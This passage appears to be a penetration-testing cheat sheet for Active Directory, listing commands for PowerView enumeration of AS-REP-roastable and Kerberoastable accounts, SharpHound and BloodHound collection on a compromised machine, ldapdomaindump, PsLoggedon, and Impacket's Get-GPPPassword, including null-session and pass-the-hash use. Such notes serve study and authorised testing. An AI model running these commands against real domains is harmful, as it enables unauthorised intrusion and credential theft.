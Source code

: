 ```powershell
Find-DomainShare 

# identifying AS-REP roastable accounts
Get-DomainUser -PreauthNotRequired -verbose

# Kerberoastable accounts
Get-NetUser -SPN | select serviceprincipalname 
```

## Bloodhound

- Collection methods - database

```powershell
# Sharphound - transfer sharphound.ps1 into the compromised machine
Import-Module .\Sharphound.ps1 
# collects and saved with the specified details, output will be saved in windows compromised machine
Invoke-BloodHound -CollectionMethod All -OutputDirectory <location> -OutputPrefix "name" 

# Bloodhound-Python
bloodhound-python -u 'user' -p 'password' -ns <rhost> -d <domain-name> -c all # output will be saved in you kali machine
```

- Running Bloodhound

```bash
sudo neo4j console
# then upload the .json files obtained
```

## LDAPDOMAINDUMP

- These files contains information in a well structured webpage format.

```bash
# Do this in a new folder
sudo ldapdomaindump ldaps://IP -u 'username' -p 'password' 
```

## PsLoggedon

```powershell
# To see user logons at remote system of a domain(external tool)
.\PsLoggedon.exe \\<computername>
```

## GPP or CPassword

- Impacket

```bash
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash (with an NT hash)
Get-GPPPassword.py -hashes :'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# parse a local file
Get-GPPPassword.py -xmlfile '/path/to/Policy.xml' 'LOCAL'
```
